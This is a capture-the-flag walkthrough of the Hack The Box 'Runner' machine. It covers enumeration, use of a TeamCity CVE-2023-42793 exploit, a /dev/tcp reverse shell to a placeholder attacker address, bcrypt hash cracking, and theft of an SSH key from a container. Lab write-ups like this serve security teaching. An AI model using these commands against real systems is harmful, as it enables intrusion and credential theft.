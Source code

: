 ![Runner](https://github.com/amalcew/htb-writeups/assets/73908014/18de41ab-245c-4127-ab71-4f6bb2608925)

## Reconnaissance & port scanning

Let's start with port scan

```bash
# Nmap 7.94SVN scan initiated Fri May 24 17:36:34 2024 as: nmap -sV -sC --open -oA logs/initial_recon/initial 10.10.11.13
Nmap scan report for runner.htb (10.10.11.13)
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http        nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Runner - CI/CD Specialists
8000/tcp open  nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 24 17:36:42 2024 -- 1 IP address (1 host up) scanned in 7.83 seconds
```

Heading to the website hosted on port 80, we can see simple webpage:

![01-initial_webpage](https://github.com/amalcew/htb-writeups/assets/73908014/8c6d8f32-5941-4337-939f-6449c6d9f380)

Enumerating the machine did not return any significant directories or any vhosts, when enumerating the machine with [SecLists](https://github.com/danielmiessler/SecLists). As there are no inputs that can be exploited, I've started exploring the webpage content.

![02-cicd_disclosed](https://github.com/amalcew/htb-writeups/assets/73908014/22929417-d005-49d3-a831-15077fb4be1c)

The webpage apperantly is disclosing the service that is running on the machine. As there were no signs of any CI\CD panels, I've returned to vhost enumeration. This time, using [n0kovo_subdomains](https://github.com/n0kovo/n0kovo_subdomains/tree/main), which could has possible CI\CD subdomains.

```bash
> ffuf -w /usr/share/wordlists/n0kovo_subdomains/n0kovo_subdomains_huge.txt:FUZZ -u http://runner.htb/ -H 'Host: FUZZ.runner.htb' | grep -iv 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://runner.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/n0kovo_subdomains/n0kovo_subdomains_huge.txt
 :: Header           : Host: FUZZ.runner.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

teamcity                [Status: 401, Size: 66, Words: 8, Lines: 2, Duration: 29ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Bingo! After adding the subdomain to the `/etc/hosts`, We are greeted with TeamCity's login page:

![03-teamcity](https://github.com/amalcew/htb-writeups/assets/73908014/3036f00b-c7f8-4759-a87b-661523f6592f)

The login page already discloses which version of the service is running on the server. Quick search reveals, that this version of TeamCity is vulnerable to CVE-2023-42793.


## Initial foothold

### Authentication bypass & RCE

As previously discovered, the TeamCity panel is vulnerable to [CVE-2023-42793](https://nvd.nist.gov/vuln/detail/CVE-2023-42793), which can lead to remote code execution.

After quick search I've found an [exploit PoC](https://github.com/Zyad-Elsayed/CVE-2023-42793). The authentication bypass created a admin user on the server:

```bash
> python exploit.py -u http://teamcity.runner.htb 

=====================================================
*                                                   *
*              CVE-2023-42793                       *
*        TeamCity Admin Account Creation            *
*                                                   *
=====================================================

Token: eyJ0***************************************************************************************************Dlj
Token saved to ./token
Successfully exploited!
URL: http://teamcity.runner.htb
Username: admin.H4sy
Password: P**************3
```

And allowed me to log into the panel with admin privileges:

![04-admin_panel](https://github.com/amalcew/htb-writeups/assets/73908014/3739e54b-be11-417b-9241-ab6de1bae4a8)

As the admin panel was empty and had no clues regarding initial foothold on the server, I've continued to the second part of the exploit which was utilizing the user token to execute the command on the server:

```bash
> python rce.py -u http://teamcity.runner.htb -t token -c 'id'    
StdOut:uid=1000(tcuser) gid=1000(tcuser) groups=1000(tcuser)

StdErr: 
Exit code: 0
Time: 25ms  
```

This quick check confirms, that the target is indeed vulnerable. This way we can spawn our reverse shell

```bash
> python rce.py -u http://teamcity.runner.htb -t token -c '"/bin/bash"&params="-c"&params="sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxx.xx.xx.xx%2F1234%200%3E%261"'
```

```bash
> nc -lnvp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.13] 50768
sh: 0: can't access tty; job control turned off
$ id
uid=1000(tcuser) gid=1000(tcuser) groups=1000(tcuser)
```

### Scanning and discovering the rsa key

As I've discovered, the environment where I've landed was a Docker container. 

```bash
tcuser@647a82f29ca0:~/bin$ ls /home
tcuser@647a82f29ca0:~/bin$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
tcuser@647a82f29ca0:~/bin$ find / -name .dockerenv 2>/dev/null
/.dockerenv
```

This is quite troubling, as we will need to break out of the container to access the host underneath. After some manual exploration I've discovered the TeamCity `datadir` folder containing many potential valuable findings:

```bash
tcuser@647a82f29ca0:/data/teamcity_server/datadir$ ls
backup                      backup_20240524_154255.zip
backup_20240524_102038.zip  backup_20240524_154642.zip
backup_20240524_102050.zip  backup_20240524_154724.zip
backup_20240524_102253.zip  backup_20240524_154725.zip
backup_20240524_102306.zip  backup_20240524_154813.zip
backup_20240524_153623.zip  config
backup_20240524_153638.zip  lib
backup_20240524_153730.zip  plugins
backup_20240524_153815.zip  system
backup_20240524_154149.zip
```

First finding was hashes of two machine users, stored inside server logs that looked like automated building script:

```bash
tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ cat buildserver.log

... SNIP ...
INSERT INTO USERS VALUES(2,'matthew','$2a************************************************Em','Matthew','matthew@runner.htb',1716567667703,'BCRYPT')
... SNIP ...
INSERT INTO USERS VALUES(1,'admin','$2a************************************************ye','John','john@runner.htb',1716565938693,'BCRYPT')
... SNIP ...

```

User `matthew`'s hash was crackable:

```bash
> john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 128 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
p******3         (?)     
Session aborted

```

As we obtained the password, I've tried to ssh into the machine with no luck, so I've returned to exploration of the `datadir` folder

The real treasure hidden inside the directory was `id_rsa` private key of on of the box's users:

```bash
tcuser@647a82f29ca0:/data/teamcity_server/datadir$ find . -name id_rsa
./config/projects/AllProjects/pluginData/ssh_keys/id_rsa
```

After copyting to my machine I've been able to log into the machine as user `john` and read user flag:

```bash
ssh -i id_rsa john@10.10.11.13 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Fri May 24 06:54:08 PM UTC 2024

  System load:  0.3037109375      Users logged in:                  0
  Usage of /:   82.8% of 9.74GB   IPv4 address for br-21746deff6ac: 172.18.0.1
  Memory usage: 46%               IPv4 address for docker0:         172.17.0.1
  Swap usage:   0%                IPv4 address for eth0:            10.10.11.13
  Processes:    234


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri May 24 17:10:29 2024 from xx.xx.xx.xx
john@runner:~$ cat user.txt 
31****************************6c
```

